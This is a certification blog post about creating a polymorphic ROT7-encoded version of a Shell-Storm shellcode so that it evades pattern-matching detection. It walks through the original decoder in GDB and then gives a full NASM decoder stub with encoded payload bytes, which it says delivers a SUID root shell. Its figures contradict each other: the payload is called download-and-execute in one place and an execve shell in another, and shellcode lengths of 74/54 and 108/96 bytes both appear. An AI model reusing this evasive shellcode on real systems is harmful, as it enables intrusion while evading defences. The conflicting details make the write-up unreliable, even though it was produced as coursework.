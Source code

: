 # Assignment 6: ROT7 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Download and Execute shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-900.php](http://shell-storm.org/shellcode/files/shellcode-900.php "").

### Shellcode Analysis

To begin, lets grab a copy of that shellcode, compile it, and trace it with GDB:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb1.png "GDB")

As can be appreciated, the shellcode uses the `JMP-CALL-POP` technique to get the payload address on the stack. The payload in this case is is the following string:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb2.png "Encoded Payload")

which is of course the ROT7 encoded version of the shellcode that we want to execute. 

To decode the encoded opcodes, the shellcode loops around `0x1e` (30) times, basically doing `f(x) = 0x100 + (0x7 - x)`, where `x` is the next opcode. The encoded opcode is replaced by the decoded one, which is the result of the aforementioned mathematical expression. When everything is decoded, the control is transfered to the shellcode address previously `JMP-CALL-POP`ed.

If we break after the shellcode has been decoded, we can see that the decoded version is what is commonly known as a "stack-based `execve()` shell" shellcode. 

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb3.png "Decoded Payload")

### Polymorphic Shellcode

Like the original shellcode from Shell-Storm, the morphed version will use the `JMP-CALL-POP` technique to get the address of the encoded shellcode. However, the mathematical manipulation will be different: `f(x) = x - 0x7`, where `x` is the next opcode. The encoded opcode will be replaced by the decoded one, which would be the result of the aforementioned mathematical expression.

### a6-rot7-decode.nasm
```nasm
; SLAE Assignment 6: ROT7 decoder (morphed)
; http://shell-storm.org/shellcode/files/shellcode-900.php
; Original Shellcode Length: 74
; Morphed Shellcode Length:  54

global _start
section .text
_start:
	jmp short stage

decoder:
	pop esi						; shellcode address
	mov al, byte [esi]			; shellcode length
	xor ecx, ecx 				; position

decode:
	mov bl, byte [esi+ecx+1]	; get rot'ed byted
	sub bl, 0x7					; rot it back (-7)
	mov byte [esi+ecx], bl		; store it in shellcode
	inc ecx						; next position
	cmp al, cl					; check if reached the end of shellcode
	jnz short decode 			; 	if not, continue derot'ing
	jmp shellcode				;	else, execute derot'ed shellcode

stage:
	call decoder
	
	; Shellcode Format: 
	; 	byte[0] 	= length of shellcode (max 0xff)
	;	byte[1..] 	= rot'ed shellcode
	shellcode: db 0x18,0x38,0xc7,0x57,0x6f,0x36,0x36,0x7a,0x6f,0x6f,0x36,0x69,0x70,0x75,0x90,0xea,0x38,0xd0,0x90,0xd1,0x71,0x12,0x5f,0xd4,0x87
```

Let us go ahead and check if everything works as it should.

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/example.png "Example")

It looks like everything works as expected. The file is correctly downloaded, chmod'ed and executed, giving us a SUID root shell.

Now let's go on to check how the morphed version compares to the original shellcode.

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/length.png "Shellcode length")

Our morphed version is 96 bytes in length, which is of course 12 bytes shorter than the original 108 bytes. 




